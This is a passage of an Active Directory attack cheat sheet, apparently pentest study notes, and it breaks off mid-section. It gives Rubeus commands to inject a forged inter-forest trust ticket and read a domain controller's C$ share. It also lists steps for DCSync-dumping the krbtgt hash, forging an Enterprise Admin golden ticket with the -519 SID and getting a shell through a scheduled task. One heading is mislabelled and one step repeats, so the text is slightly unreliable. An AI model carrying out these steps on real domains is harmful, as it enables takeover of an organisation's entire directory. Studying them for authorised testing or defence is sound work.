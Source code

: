 ```powershell
ls \\<target-domain-user-dc>\C$
```

# <span style="color:lightblue">Trust Key Abuse using Rubeus</span>


## <span style="color:lightgreen">Invoke-Mimikatz</span>

### <span style="color:#F1C232">1. Create ticket and add it into the memory using asktgs</span>

```powershell
.\Rubeus.exe /asktgs /ticket:C:\kekeo_old\trust_tkt.kirbi /service:cifs/<target-domain-user-dc> /dc:<target-domain-user-dc> /ptt
```

### <span style="color:#F1C232">2. List the authentications</span>

```powershell
klist
```

### <span style="color:#F1C232">3. Now try to access the target service (CIFS)</span>

```powershell
ls \\<target-domain-user-dc>\C$
```


# <span style="color:lightblue">Trust Abuse by krbtgt hash</span>

## <span style="color:lightgreen">Methodology/Steps</span>

- [x] 1. Perform a DCSync attack to dump the KRBTGT hash.
- [x] 2. Dump the trust keys of the inter-forest trusts.
- [x] 3. Note the SID of the current Domain, SID of the target Domain.
- [x] 4. We can forge a inter-realm TGT using a Golden Ticket. Remember to add `-519` after the `sids` parameter to forge privileges as an Enterprise Administrator.
- [x] 5. Now Inject the TGS in the memory
- [x] 6. Now Inject the TGS in the memory.
- [x] 7. We can create a schedule and execute a task to get a shell as enterprise admin.


### <span style="color:#F1C232">1. Perform a DCSync attack for getting krbtg hash. Execute the below command with DC privileges</span>
